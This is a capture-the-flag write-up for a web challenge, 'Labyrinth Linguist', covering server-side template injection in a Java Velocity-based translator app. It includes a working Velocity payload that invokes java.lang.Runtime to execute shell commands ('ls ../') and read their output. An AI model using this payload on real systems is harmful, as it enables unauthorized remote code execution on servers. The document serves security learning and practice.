 # Labyrinth Linguist

So we start off with this text transfirmer:

<figure><img src="../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Really nothing goes on except the translate feature, no interesting network requests, hints in the source code or cookies so i go and capture the request and download all the files:

since our input is somehow reflected on the page i'm thinking about ssti but i can't manage to trigger and identify the template running behind it but by lookinbg at the source code i get the answer for this question:

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Velocity is a **Java-based template engine** that allows embedding dynamic content in templates. It uses a specific syntax to process templates and render dynamic data

here we got some payloads for this:

{% embed url="https://antgarsil.github.io/posts/velocity/" %}

So i try the following payload:

```
#set ($run=1 + 1) $run 
```

<figure><img src="../../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

So i browse a bit and find this payload:

```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls ../'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

<figure><img src="../../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

and we flag
